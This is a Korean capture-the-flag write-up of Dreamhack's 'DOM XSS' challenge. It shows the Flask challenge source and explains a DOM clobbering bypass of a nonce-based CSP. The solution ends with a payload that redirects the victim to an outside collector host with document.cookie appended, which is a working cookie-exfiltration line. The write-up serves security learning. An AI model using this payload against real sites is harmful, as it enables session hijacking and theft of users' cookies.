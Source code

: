 ```yaml
---
title : Dreamhack - DOM XSS
date: 2022-05-01 10:59 +0900
categories: [Dreamhack, Webhacking]
tags: [DOM XSS, dreamhack dom xss, DOM Clobbering]
---
```


## DOM XSS
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, name, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}#{name}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}' 'strict-dynamic'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", nonce=nonce, param=param)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        name = request.form.get("name")
        if not check_xss(param, name, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```

<br>

vuln.html

![vuln.html](https://user-images.githubusercontent.com/52172169/166129011-cea81770-a310-4945-af00-3ebbe89516eb.png)

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

DOM Clobbering을 이용해서 푸는 문제이다.
: <a href="https://learn.dreamhack.io/326#5" target="_blank">Exploit Tech: Document Object Model Vulnerability</a>

<br>

```javascript
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
</script>
```

<br>

위와 같은 코드가 있는데, 보면 ```name_elem.innerHTML```으로 코드를 삽입해준다. 

```name_elem``` 변수는 ```document.getElementById("name");```를 통해 id가 name인 태그를 가리키도록 한다. 

즉, id가 name이고 속성 중에 값으로 innerHTML을 갖는 태그가 있으면 거기로 접근하게 될 것이다.

<br>

HTML id, name, class 속성 차이점
: <a href="https://penguingoon.tistory.com/116" target="_blank">penguingoon.tistory.com/116</a>

<br>

따라서 아래와 같은 코드를 넣어주면 된다.
: ```<script id="name" name="innerHTML"></script>#alert();//```

<br>

alert가 실행된다. 최종 코드는 아래와 같다.
: ```<script id='name' name='innerHTML'></script>#location.href='https://bxzhrfy.request.dreamhack.games?cookie='+document.cookie;//```

<br><br>
<hr style="border: 2px solid;">
<br><br>
